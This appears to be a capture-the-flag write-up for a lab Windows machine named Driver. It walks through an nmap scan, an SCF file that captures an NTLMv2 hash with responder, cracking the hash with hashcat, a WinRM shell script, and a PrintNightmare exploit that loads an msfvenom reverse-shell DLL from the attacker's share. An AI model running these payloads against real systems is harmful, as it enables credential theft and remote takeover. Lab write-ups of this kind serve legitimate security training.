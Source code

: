 ![DRIVER](banner.png)

```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m02s, deviation: 0s, median: 7h00m01s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-04T01:10:44
|_  start_date: 2021-10-04T00:33:16

```
## Foothold

Visiting `http://driver.htb` asks for credentials. Default credentials `admin:admin` work here. We find an upload page on `http://driver.htb/fw_up.php` and it says `Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.`. So it seemed like whatever we upload there will be stored in a smb share.

Searching on google for `smb share malicious file` will lead us quickly to [this blog post](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) where it explains SCF (Shell Command Files).

We just follow the blog post by creating a file named `@test.scf` with this content:
```
[Shell]
Command=2
IconFile=\\10.10.14.46\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```


Where the IP in the `IconFile` parameter is obviously our attackers machines ip.


Simultaneously we start up responder like this: 

```
sudo responder -wrf --lm -v -I tun0
```

We then wait for `tony` to click on our malicious file and see the output in our responder terminal:

```
[SMB] NTLMv2 Client   : 10.129.232.64
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:f81bdbf6c7d0f0ca:65B9199BA507A0527EC0E2B37D92E67A:0101000000000000EFF256BCC5B8D70195CB086D9C02990C00000000020000000000000000000000
```

## User

We can then proceed to crack this NTLMv2 Hash using hashcat like this:

```sh
hashcat -m 5600 'tony::DRIVER:f81bdbf6c7d0f0ca:65B9199BA507A0527EC0E2B37D92E67A:0101000000000000EFF256BCC5B8D70195CB086D9C02990C00000000020000000000000000000000' ~/Desktop/Scripts/wordlists/rockyou.txt  
```

We will get these credentials: `tony:liltony`.

After another google-fu we found [another blog](https://www.hackingarticles.in/winrm-penetration-testing/) which we followed to use our credentials and get a shell on the machine.

We used [this ruby script](https://alionder.net/winrm-shell/).

```ruby
require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://IP:5985/wsman',
  user: 'Tony',
  password: 'liltony',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

And install winrm like this:
```
gem install winrm
```

Now run it like this: `ruby winrm-shell.rb`.


We can now navigate to `C:\Users\tony\Desktop` and cat the user flag.

## Root

Since the PrintNightmare had a comeback recently and this machine was already about printers and driver we just went straight for the [PoC](https://github.com/cube0x0/CVE-2021-1675) and ran it like this:
```sh
python3 nightmare.py DRIVER/tony:liltony@10.129.232.84 '\\10.10.14.46\public\new.dll'
```

We created the malicious `new.dll` with msfvenom:
```sh
sudo msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=4444 -f dll > /var/public/new.dll
```

and hosted it on a public available samba share `/var/public/`.
To create such share we edited our `/etc/samba/smb.conf` to allow guests and define the path so it looks like this:

```
[public]
comment = Public Directories
path = /var/public
guest ok = Yes
```

and restarted samba with this command `sudo systemctl restart smbd.service`.

Now we only need to wait for our shell to pop in our listener in `msfconsole`.
To setup the listener just use `exploit/multi/handler` and set the payload, LPORT and LHOST to values you used to create the dll with msfvenom.